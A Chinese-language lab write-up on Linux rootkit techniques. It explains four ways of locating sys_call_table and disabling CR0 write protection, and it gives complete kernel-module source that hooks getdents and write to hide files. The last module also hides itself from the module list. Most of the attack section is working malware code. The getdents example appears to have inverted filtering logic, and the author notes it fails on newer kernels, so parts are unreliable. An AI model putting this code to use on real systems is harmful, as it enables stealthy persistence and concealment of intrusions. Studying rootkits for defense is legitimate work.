


# Linux rootkit实验 | 0002 基于sys_call_table的系统调用挂钩

> 在本次实验中，我们将实现简单的系统调用挂钩方案，并且基于这个方案实现文件隐藏
>
> 实验环境: 
>
> root@kali:~# uname -a 
> Linux kali 4.18.0-kali2-amd64 #1 SMP Debian 4.18.10-2kali1 (2018-10-09) x86_64 GNU/Linux

## 1 系统调用

系统调用是程序和内核服务交互的方式。它们涵盖了进程管理，文件管理，设备管理，信息管理，通信（内核调度）的所有操作。在保护模式下，内核决定了一组系统调用以及其相关实现。所以系统调用号是不可逆的，而有关系统调用的定义存储在` /usr/include/x86_64-linux-gnu/asm/unistd_64.h `中，这里截取前面几个简单的看一下:

```c
#ifndef _ASM_X86_UNISTD_64_H
#define _ASM_X86_UNISTD_64_H 1

#define __NR_read 0
#define __NR_write 1
#define __NR_open 2
#define __NR_close 3
#define __NR_stat 4
#define __NR_fstat 5
#define __NR_lstat 6
#define __NR_poll 7
#define __NR_lseek 8
#define __NR_mmap 9
#define __NR_mprotect 10
#define __NR_munmap 11
```

这里有有关系统调用的资料，可以看一下：

- <https://zh.wikipedia.org/wiki/系统调用>
- <https://developer.ibm.com/tutorials/l-system-calls/>

下面一张图展示了如何用户如何获得pid



- 用户调用`getpid(void)`库，C标准库在一个段寄存器中存储`getpid`的系统调用号，并启动`0x80`中断，执行`system_call`函数。这个函数处理的是由`eax`内容标识的所有系统调用，然后经过一些步骤之后，它调用真正的系统调用`sysytem_call_table`和`exa`中存放的中断索引。从系统调用返回之后，`sysytemcall_exit`退出系统调用，并从内核态返回用户态，将结果返回给用户。

- 所以我们能够知道的是，在`system_call_table`中存放的是所有系统调用位置的指针，如果我们能够找到它，就可以修改它里面某个系统调用的指针，使得它指向的经过我们修改之后的函数。

- 系统调用表源码：`arch/x86/entry/syscall_64.c`

  ```c
  asmlinkage const sys_call_ptr_t sys_call_table[__NR_syscall_max+1] = {
  	/*
  	 * Smells like a compiler bug -- it doesn't work
  	 * when the & below is removed.
  	 */
  	[0 ... __NR_syscall_max] = &sys_ni_syscall,
  #include <asm/syscalls_64.h>
  };
  ```

所以基于修改sys_call_table的系统调用hook可以分解为以下三个步骤:

- 找到这张表在内存中的地址
- 这张表所在内存有写保护，我们要关掉写保护
- 修改这张表（之后要开启写保护）

##  2 查找sys_call_table地址

### 2.1 通过System.map直接读取

`system.map`是系统的映射。具体是内核符号和其所在内存地址两者的用设，通过地址我们可以找到符号，也就是变量和函数，通过符号，我们也能知道它所在的地址，在这里，我们一直的符号是`sys_call_table`系统调用表，从`system.map`中我们就可以找到系统调用表所在的内存地址。

```shell
root@kali:/boot# cat System.map-4.19.0-kali1-amd64 | head -20
0000000000000000 D __per_cpu_start
0000000000000000 D irq_stack_union
00000000000001e0 A kexec_control_code_size
0000000000004000 D cpu_debug_store
0000000000005000 D cpu_tss_rw
0000000000008000 D gdt_page
0000000000009000 d exception_stacks
000000000000e000 d entry_stack_storage
000000000000f000 D espfix_waddr
000000000000f008 D espfix_stack
000000000000f010 D cpu_llc_id
000000000000f020 D cpu_llc_shared_map
000000000000f060 D cpu_core_map
000000000000f0a0 D cpu_sibling_map
000000000000f0e0 D cpu_info
000000000000f1d0 D cpu_number
000000000000f1d8 D this_cpu_off
000000000000f1e0 D x86_cpu_to_acpiid
000000000000f1e4 D x86_cpu_to_apicid
000000000000f1e6 D x86_bios_cpu_apicid
```

同样可以查看系统调用表的内存地址:



可以看到这里用`sys_call_table`和`ia32_sys_call_table`两个表。第一个是 64 位系统本身的系统调用表，第二个表是为了兼容 32 位程序通过`int 0x80`方式做系统调用而存在的。

### 2.2 通过`kallsyms`获取


**/boot/System.map 和 /proc/kallsyms的区别**

> 内核喜欢地址，但人更喜欢符号。所以需要一个类似`DNS`的东西来将符号与地址之间做转换。有两个文件扮演符号表的角色：
>
> - **/boot/System.map-$(uname -r) - ** 它包含整个内核镜像的符号表。
> - **/proc/kallsyms - ** 它不仅包含内核镜像符号表，还包含所有动态加载模块的符号表（如果一个函数被编译器内联（inline）或者优化掉了，则它在/proc/kallsyms有可能找不到）

### 2.3 确定大概范围之后进行暴力搜索

内核内存空间的起始地址`PAGE_OFFSET`变量和`sys_close`系统调用对我们是可见的，（`sys_open`/`sys_read`等并未导出）；系统调用号（即`sys_call_table`中的元素下标）在同一`ABI`（x86与x64属于不同ABI）中是高度后向兼容的；这个系统调用号我们也是可以直接引用的（如`__NR_close`）。所以我们可以从内核空间起始地址开始，把每一个指针大小的内存假设成`sys_call_table`的地址，并用`__NR_close`索引去访问它的成员，如果这个值与`sys_close`的地址相同的话，就可以认为找到了`sys_call_table`的地址**（但是这种方法可能被欺骗？）**

我们先看一下`PAGE_OFFSET`的定义（x64）：

```c
#define PAGE_OFFSET		((unsigned long)__PAGE_OFFSET)
#define __PAGE_OFFSET           page_offset_base
unsigned long page_offset_base = __PAGE_OFFSET_BASE;
EXPORT_SYMBOL(page_offset_base);
#define __PAGE_OFFSET_BASE      _AC(0xffff880000000000, UL)
```

搜索函数：

```c
#define START_CHECK 0xffffffff81000000
#define END_CHECK 0xffffffffa2000000

void *get_sys_call_table(void)
{
    unsigned long **entry;
    unsigned long i = START_CHECK;
    while(i < END_CHECK){
        entry = (unsigned long **)i;
        if(entry[__NR_close] == (unsigned long *)sys_close){
            return &entry[0];
        }
        i += sizeof(void *);
    }
    return NULL;
}
```

测试用LKM源代码如下:

```c
#include <linux/module.h>
#include <linux/kernel.h>
#include <linux/syscalls.h>

#define START_CHECK 0xffffffff81000000
#define END_CHECK 0xffffffffa2000000

unsigned long *sys_call_table;

void *get_sys_call_table(void)
{

    unsigned long **entry;
    unsigned long i = START_CHECK;
    while(i < END_CHECK){
        entry = (unsigned long **)i;
        if(entry[__NR_close] == (unsigned long *)sys_close){
            return &entry[0];
        }
        i += sizeof(void *);
    }
    return NULL;
}


static int rooty_init(void)
{
    sys_call_table = get_sys_call_table();
    if (!sys_call_table)
    {
        printk("get_act_addr(): NULL...\n");
        return 0;
    }
    else{
        printk("sct: 0x%p\n", (unsigned long)sys_call_table);
        return 0;
    }   
}

static void rooty_exit(void)
{
    printk(KERN_INFO "printsct3: module removed\n");
}


MODULE_LICENSE("GPL");
module_init(rooty_init);
module_exit(rooty_exit);
```

结果:

### 2.4 通过IDT中断向量表来获取系统调用

#### 2.4.1 32位操作系统

从1的图中我们能够看到中断向量表的工作过程。

> - 用户进程在执行系统调用前，先将系统调用号，输入的参数等放在寄存器中。
> - 发出0x80中断，也就是128号中断
> - 系统暂停用户进程，根据128号中断在终端向量表中找到中断服务程序system_call
> - 128号中断的中断服务程序system_call紧接着执行。在进行必要的处理后，**统一调用 call `sys_call_table(%eax,4)`来调用sys_call_table表中的系统调用服务**，`eax`存放的即时系统调用号；执行完毕后它又会把输出结果放到寄存器中。
> - 系统恢复用户进程，进程从寄存器中取到自己想要的东西，然后继续执行。

均居这个过程，我们可以捋以下获取`sys_call_table`的思路：

> - 利用`sidt`指令，得到IDT
> - 在IDT中，找到0x80号向量中断服务程序地址`system_call`
> - 从0x80号中断服务程序的地址开始硬编码搜索` \xff\x14\x85`(x86)，` \xff\x14\xc5`(x64)也就是`call`指令二进制格式，而中断调用语句是:`sys_call_table(%eax,4)`

```c
struct 
{
	unsigned short size;
	unsigned int addr;
}__attribute__((packed)) idtr;

struct
{
	unsigned short offset_1;  /*offset bits 0..15*/
	unsigned short selector;  /*a code segment selector in GDT or LDT*/
	unsigned char zero;       /*unused, set to 0*/
	unsigned char type_attr;  /*type and attributes*/
	unsigned short offset_2;  /*offset bits 16..31*/
}__attribute__((packed)) idt;
```

这两个结构体代表的是IDTR和IDT表项，IDTR是用来定位IDT位置的，因为IDT表可以驻留在线性地址空间的任何地方，所以处理器专门有寄存器来储存IDT的位置，也就是IDTR寄存器。我们通过`sidt`指令加载IDTR寄存器的内容，然后储存到我们自己的这个结构体中，然后通过其找到IDT的位置所在，将IDT存到我们所设的结构体中，便于操作。

#### 2.4.2 64位操作系统

在64位系统中，IDT的表头不用经过计算，直接可以从寄存器中取出来。

```c
#include <linux/module.h>

#define IA32_LSTAR  0xc0000082

void *get_sys_call_table(void) {
    void *system_call;
    unsigned char *ptr;
    int i, low, high;

    // 
    asm("rdmsr" : "=a" (low), "=d" (high) : "c" (IA32_LSTAR));

    // IDT地址： 高低位取出来，64位
    system_call = (void*)(((long)high<<32) | low);
    
    for (ptr=system_call, i=0; i<500; i++) {
        //搜索 call \xff\x14\xc5
        if (ptr[0] == 0xff && ptr[1] == 0x14 && ptr[2] == 0xc5)

            // 找到的就是 sys_call_table
            return (void*)(0xffffffff00000000 | *((unsigned int*)(ptr+3)));
        ptr++;
    }
    return NULL;
}

static int __init sct_init(void) {
    printk(KERN_INFO "sys_call_table: 0x%p", get_sys_call_table());
    return 0;
}

static void __exit sct_exit(void) {
}

module_init(sct_init);
module_exit(sct_exit);
MODULE_LICENSE("GPL");
```

## 3 写保护

利用的是cro寄存器，实现比较简单，两段代码，值得学习

```c
//关闭写保护
write_cr0(read_cr0() & (~0x10000));

//打开写保护
write_cr0(read_cr0() | 0x10000);
```

## 4 例子

### 4.1 hook getdent系统调用实现文件隐藏

原理参考隐藏文件和隐藏进程一文

```c
asmlinkage long my_getdents(unsigned int fd, struct linux_dirent __user *dirp,unsigned int count){
    struct linux_dirent *kdirp,*kdirp2;
    long value,tlen;
    long len = 0;
    value = (*old_getdents) (fd, dirp, count);
    tlen = value;

    kdirp = (struct linux_dirent *) kmalloc(tlen, GFP_KERNEL);
    kdirp2 = kdirp;
    copy_from_user(kdirp, dirp, tlen);
    
    while(tlen > 0)
    {
        len = dirp->d_reclen;
        tlen = tlen - len;
        printk("%s\n",dirp->d_name);
        
        //如果是要隐藏的文件
        if(strstr(dirp->d_name,"backdoor") == NULL)
        {
            printk("find file\n");
            //过滤掉
            memmove(dirp, (char *) dirp + dirp->d_reclen, tlen);
            value = value - len;
            printk(KERN_INFO "hide successful.\n");
        }
        if(tlen)
            dirp = (struct linux_dirent *) ((char *)dirp + dirp->d_reclen);
    }
    
    printk(KERN_INFO "finished hacked_getdents.\n");
    return value;
}
```

### 4.2 hook write系统调用实现文件隐藏

```c
#include <linux/module.h>
#include <linux/init.h>
#include <linux/kernel.h>
#include <linux/kobject.h>
#include <linux/unistd.h>
#include <linux/syscalls.h>
#include <linux/string.h>
#include <linux/slab.h>

MODULE_LICENSE("GPL");

int rooty_init(void);
void rooty_exit(void);
module_init(rooty_init);
module_exit(rooty_exit);


#define START_CHECK 0xffffffff81000000
#define END_CHECK 0xffffffffa2000000
typedef unsigned long psize;

asmlinkage ssize_t (*o_write)(int fd, const char __user *buff, ssize_t count);

psize *sys_call_table;
psize **find(void) {
    psize **sctable;
    psize i = START_CHECK;
    while (i < END_CHECK) {
        sctable = (psize **) i;
        if (sctable[__NR_close] == (psize *) sys_close) {
            return &sctable[0];
        }
        i += sizeof(void *);
    }
    return NULL;
}

asmlinkage ssize_t rooty_write(int fd, const char __user *buff, ssize_t count) {
    int r;
    char *proc_protect = ".rooty";
    char *kbuff = (char *) kmalloc(256,GFP_KERNEL);
    copy_from_user(kbuff,buff,255);
    if (strstr(kbuff,proc_protect)) {
        kfree(kbuff);
        return EEXIST;
    }
    r = (*o_write)(fd,buff,count);
    kfree(kbuff);
    return r;
}

int rooty_init(void) {
    /* Do kernel module hiding*/
    list_del_init(&__this_module.list);
    kobject_del(&THIS_MODULE->mkobj.kobj);
    
    /* Find the sys_call_table address in kernel memory */
    if ((sys_call_table = (psize *) find())) {
        printk("rooty: sys_call_table found at %p\n", sys_call_table);
    } else {
        printk("rooty: sys_call_table not found, aborting\n");
    }
    
    /* disable write protect on page in cr0 */
    write_cr0(read_cr0() & (~ 0x10000));
    
    /* hijack functions */
    o_write = (void *) xchg(&sys_call_table[__NR_write],rooty_write);
    /* return sys_call_table to WP */
    write_cr0(read_cr0() | 0x10000);
    
    return 0;
}

void rooty_exit(void) {
    write_cr0(read_cr0() & (~ 0x10000));
    xchg(&sys_call_table[__NR_write],o_write);
    write_cr0(read_cr0() | 0x10000);
    printk("rooty: Module unloaded\n");
}
```

## 5 总结&问题

### 总结

1. 理解系统调用的整个过程
2. 学习搜索系统调用表的四种方法，包括：
   1. 通过System.map直接读取
   2. 通过kallSyms直接读取
   3. 确定一个大概的范围，然后通过close调用暴力搜索
   4. 通过IDT中断向量表找到system_call地址然后搜索call指令寻找sys_call_table地址
3. 实现了一个文件隐藏的功能

### 问题

1. 对于`ls`命令的过程不是很清楚，对于隐藏的hook代码不是很清楚
2. 代码在高版本linux上运行不通过，一直没有找到出现问题的原因

## 参考资料

- [Modern Linux Rootkits 101](<https://turbochaos.blogspot.com/2013/09/linux-rootkits-101-1-of-3.html?view=sidebar>)
- [Linux Rootkit 实验 | 0004 另外几种系统调用挂钩技术](<https://wohin.me/rootkit/2017/05/08/LinuxRootkitExp-0001.html>)
- [Linux Rootkit 实验 | 0001 基于修改sys_call_table的系统调用挂钩](<https://wohin.me/rootkit/2017/05/08/LinuxRootkitExp-0001.html>)
- [Linux Rootkit 系列二：基于修改 sys_call_table 的系统调用挂钩](http://www.freebuf.com/sectool/105713.html)

- [Linux Rootkit 系列四：对于系统调用挂钩方法的补充](http://www.freebuf.com/articles/system/108392.html)